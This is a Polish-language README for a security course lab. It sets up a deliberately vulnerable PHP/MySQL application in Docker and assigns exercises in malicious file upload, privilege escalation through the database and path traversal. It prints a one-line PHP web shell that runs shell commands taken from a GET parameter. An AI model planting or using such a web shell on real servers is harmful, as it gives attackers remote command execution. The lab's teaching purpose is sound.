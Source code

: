 # Instrukcja do części praktycznej

## Konfiguracja środowiska

W celu zainstalowania aplikacji zalecamy skorzystanie z docker-compose.

https://docs.docker.com/compose/install/

Oczywiście kod źródłowy aplikacji jest dla Ciebie dostępny, więc jeśli wolisz wykonać zadanie
w np. XAMPP'ie, to aplikacja powinna uruchomić się bez problemu, jednakże niniejsza instrukcja jest napisana z myślą o docker-compose.

### O aplikacji

Aplikacja, którą będziesz poddawać testowi została napisana w języku PHP (8.2.25) i działa na serwerze Apache. Ponad to korzysta ona z serwera bazodanowego MySQL (MariaDB).

W katalogu src znajdziesz kod źródłowy strony. Chcąc zmienić dane
dostępowe do bazy danych należy zmodyfikować plik src/lib/connect.php. Plik
inicjalizujący bazę danych znajduje się w ścieżce config/init.sql. Zawarte są
w nim kwerendy odpowiedzialne za utworzenie odpowiednich tabel i rekordów. Jeśli
utkniesz w trakcie wykonywania zadania, to możesz śmiało zajrzeć do tego pliku w poszukiwaniu
informacji o strukturze bazy danych.

### Instalacja

Pliki docker-compose.yml i Dockerfile pomogą Ci w szybkim postawieniu apliakcji.
Jeśli podążasz za naszym zaleceniem, to nie ingeruj w pliki konfiguracyjne aplikacji (no chyba, że napotkasz jakiś problem).

Upewnij się, że silnik Docker'a jest uruchomiony. Możesz to sprawdzić w panelu Docker Desktop.
Następnie w folderze docker użyj komendy:

```sh
docker-compose up --build
```

Terminal powinien wskazać Ci uruchomienie się 3 kontenerów: php-apache-container,
mysql-container i phpmyadmin-container. Pierwszy i ostatni powinny uruchomić się
szybko i bez problemu, natomiast mysql-container uruchomi się 3 razy i będzie gotowy dopiero
gdy pojawi się komunikat:

```
... [System] [MY-010931] [Server] /usr/sbin/mysqld: ready for connections. ...
```

W katalogu docker powinien zostać utworzony folder mysql-data. To ważny katalog z perspektywy aplikacji, bo mieści w sobie całą bazę danych. Z racji tego, że nie znajduje się on wewnątrz kontenera, ale na Twoim dysku, to nie musisz martwić się o utratę danych po wyłączeniu aplikacji.

Aby wejść do aplikacji należy odwiedzić localhost:8080.

```
Login: baim
Hasło: baim
```

Aby wejść do panelu phpmyadmin należy odwiedzić localhost:8081. \
Phpmyadmin to aplikacja, która może Ci się przydać do modyfikowania rekordów w tabelach bazy danych.

```
Login: root
Hasło: root
```

Aby zakończyć działanie docker-compose użyj kombinacji CTRL-C.

### O zadaniach

Teraz możesz przystąpić do wykonywania zadań. Zachęcamy Cię, abyś spróbował(-ła) zmierzyć się z zadaniami bez zaglądania do podpowiedzi i rozwiązań, jeśli jednak nie czujesz się na siłach, to możesz śmiało po nie sięgać. Zostały one napisane w taki sposób, abyś nie czuł(-ła) się zagubiony(-a). Do każdej części zadania zostało dolączone wytłumaczenie mechaniki danego kroku, które najlepiej poczytać po ukończeniu zadania.

Korzystaj również z kodu źródłowego, jeśli uznasz to za konieczne. Być może jest to Twoja pierwsza styczność z PHP. Dla uspokojenia, jego składnia przypomina mieszankę C i Javascript, więc nie powinieneś(-aś) mieć problemów ze zrozumieniem kodu na poziomie abstrakcji.

Powodzenia!

## Zadanie 1

1. Zapoznaj się z działaniem aplikacji. Zajrzyj do kodu źródłowego i spróbuj zrozumieć zasadę jej działania (NIE analizuj dogłębnie linia po linii).

Jak zaimplementowane jest uwierzytelnianie? \
Jak zaimplementowana jest autoryzacja? \
Jak wczytywane są fragmenty strony? \
[Jak działa aplikacja? [PODPOWIEDŹ]](hints/ex1/1_1_hint.md) \
[Struktura aplikacji [MECHANIKA]](hints/ex1/1_mechanics.md)

2. Wyślij złośliwy moduł

Może to być najprostszy możliwy plik o treści:

```php
<?php
  echo "Hello! I'm evil.";
?>
```

lub też kod RCE:

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```

gdzie $\_GET['cmd'] przyjmuję wartość pola "cmd" z zapytania GET.

Jakie pliki przyjmuje formularz? \
Gdzie są one przechowywane? \
[Jak wysłać złośliwy kod? [PODPOWIEDŹ]](hints/ex1/2_1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/2_solution.md) \
[Dlaczego tak się da? [MECHANIKA]](hints/ex1/2_mechanics.md)

3. Przyznaj swojemu użytkownikowi uprawnienia do wykonania złośliwego modułu.

Jakie informacje o użytkowniku przechowuje baza danych? \
Czy któraś z kolumn może być nadużyta?

[Jak wygląda struktura bazy danych? [PODPOWIEDŹ]](hints/ex1/3_1_hint.md) \
[Jak to wykonać? [PODPOWIEDŹ]](hints/ex1/3_2_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/3_solution.md) \
[Dlaczego tak się da? [MECHANIKA]](hints/ex1/3_mechanics.md)

4. Uruchom złośliwy moduł

[[MECHANIKA]](hints/ex1/4_mechanics.md)

## Zadanie 2

Czy jest możliwe wykonanie ataku path traversal głębiej niż aplikacja na to pozwala? Wykorzystaj do tego celu narzędzia poznane na laboratoriach.

[Jak się za to zabrać? [PODPOWIEDŹ]](hints/ex2/1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex2/1_solution.md) \
[Jaki jest tego powód? [MECHANIKA]](hints/ex2/1_mechanics.md)
